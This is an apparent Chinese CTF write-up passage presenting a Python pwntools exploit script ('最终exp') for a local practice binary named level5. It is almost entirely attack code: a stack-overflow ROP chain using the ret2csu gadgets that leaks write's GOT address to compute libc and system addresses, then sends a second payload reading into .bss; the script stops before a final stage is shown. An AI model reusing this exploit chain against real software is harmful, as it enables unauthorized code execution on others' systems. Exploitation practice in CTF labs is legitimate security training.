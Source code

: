 最终exp如下：

```python
#coding:utf-8
#!python
#!/usr/bin/env python
from pwn import *

context.log_level = "info"
elf = ELF('level5')
libc = ELF('libc.so.6')

p = process('./level5')

got_write = elf.got['write']
print "got_write: " + hex(got_write)
got_read = elf.got['read']
print "got_read: " + hex(got_read)
main = 0x400564
bss_addr=0x601028



#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=write.got, rdx=4)
payload1 =  "\x00"*136
payload1 += p64(0x400606) + p64(0xdeadbeef) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload1 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload1 += "\x00"*56
payload1 += p64(main) # recover rip

p.recvuntil("Hello, World\n")

print "\n#############sending payload1#############\n"
p.send(payload1)
sleep(1)

write_addr = u64(p.recv(8))
print "write_addr: " + hex(write_addr)

libc_addr = write_addr - libc.symbols['write']
print "libc_addr:" + hex(libc_addr)

system_addr = libc_addr + libc.symbols['system']
print "system_addr: " + hex(system_addr)



p.recvuntil("Hello, World\n")

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#read(rdi=0, rsi=bss_addr, rdx=16)
payload2 =  "\x00"*136
payload2 += p64(0x400606) + p64(0xdeadbeef) + p64(0) + p64(1) + p64(got_read) + p64(0) + p64(bss_addr) + p64(16) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload2 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload2 += "\x00"*56
payload2 += p64(main)

print "\n#############sending payload2#############\n"
p.send(payload2)
sleep(1)

```
